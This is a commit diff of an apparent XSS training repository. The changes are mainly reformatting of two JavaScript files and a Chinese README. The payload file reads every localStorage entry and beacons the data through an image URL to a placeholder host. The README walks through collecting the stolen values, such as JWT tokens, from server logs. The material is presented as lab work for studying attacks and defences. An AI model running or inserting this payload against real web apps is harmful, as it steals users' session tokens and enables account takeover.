

bate

diff --git a/handleLocalStorage_TestData.js b/handleLocalStorage_TestData.js
@@ -1,28 +1,27 @@
-	function handleLocalStorage(method, key, value) {
+function handleLocalStorage(method, key, value) {
 			
-		  switch (method) {
-			case 'get' : {
-			  let temp = window.localStorage.getItem(key);
-			  if (temp) {
-				return temp
-			  } else {
-				return false
-			  }
+	switch (method) {
+		case 'get' : {
+		let temp = window.localStorage.getItem(key);
+		if (temp) {
+		return temp
+			} else {
+			return false
+				}
 			}
 			case 'set' : {
 			  window.localStorage.setItem(key, value);
 			  break
-			}
+				}
 			case 'remove': {
 			  window.localStorage.removeItem(key);
 			  break
-			}
+				}
 			default : {
 			  return false
-			}
-		  }
+				}
 		}
+	}
 handleLocalStorage('set', 'Key1', 'value1');
 handleLocalStorage('set', 'Key2', 'value2');
-handleLocalStorage('set', 'Key3', 'value3');
 handleLocalStorage('set', 'Key3', 'value3');

diff --git a/GetLocalStorage_Payload.js b/GetLocalStorage_Payload.js
@@ -1,20 +1,19 @@
-function handleLocalStorage() {
+function GetLocalStorageData() {
      var len = localStorage.length;
      var arr = new Array();
      for(var i = 0; i < len; i++) {
 
         var getKey = localStorage.key(i);
-
         var getVal = localStorage.getItem(getKey);
 
         arr[i] = {
             'key': getKey,
             'val': getVal,
-        }
-    }
+			}
+		}
         var img = document.createElement("img");
         var url = "http://location:80/"+JSON.stringify(arr);
         img.src = url;
         document.body.appendChild(img);
-        }
-handleLocalStorage();
+    }
+GetLocalStorageData();

diff --git a/README.md b/README.md
@@ -1,16 +1,26 @@
-### LocalStorage_XSSLAB_Payload  
+LocalStorage_XSSLAB_Payload
 
->安全龙(anquanlong.com)专注做企业网络安全服务与网络安全培训!致力于为企业培养网络安全人才、健全网络安全保障体系、提高网络安全保护能力的网络安全综合服务平台。   
+>安全龙(anquanlong.com)专注做企业网络安全服务与网络安全培训!致力于为企业培养网络安全人才、健全网络安全保障体系、提高网络安全保护能力的网络安全综合服务平台。
 
-### 说明   
+### 场景说明
+这个用于在XSS中获取LocalStorage全部参数信息的XSS_Payload；
+
+一些场景参考：
+1、在RESTful WEB API或者H5运用，弃用cookie，使用jwt或者别的技术手段来做API身份验证，使用本地存储LocalStorage来做身份存储。
+2、通常前后端分离的WEBAPP SAP运用 VUE中XSS攻击与防御研究。
 
 
-这个用于在XSS中获取LocalStorage全部参数信息的XSS_Payload；   
+### 脚本说明
+***handleLocalStorage_TestData.js*** 生成实验要用的本地存储LocalStorage参数数据
+***GetLocalStorage_Payload.js*** 遍历获取本地存储LocalStorage全部参数数据
 
-适用于：前后端分离的`WEBAPP` `SAP运用` `VUE`中XSS攻击与防御研究   
+### 实验步骤
+1、通过GetLocalStorage_Payload.js构建一个GetLocalStorageData()方法，遍历出LocalStorage全部参数数据，然后赋值到document.body.appendChild(img)方法url访问参数，在body中展示img，形成展示访问。
+2、通过读取web服务器访问日志，从而获得LocalStorage全部参数数据。
 
-##### Step1 handleLocalStorage_TestData
-![Step1](https://github.com/anquanlong/LocalStorage_XSSLAB_Payload/blob/master/Step1.png?raw=true "Step1")  
+#### Step1 handleLocalStorage_TestData
+![Step1.png](https://img.anquanlong.com/public/15786219763760.png)
 
-##### Step2 GetLocalStorage_Payload BY webservice log
-![Step2](https://github.com/anquanlong/LocalStorage_XSSLAB_Payload/blob/master/Step2.png?raw=true "Step2")
+#### Step2 GetLocalStorage_Payload BY webservice log
+
+![Step2.png](https://img.anquanlong.com/public/15786219854326.png)
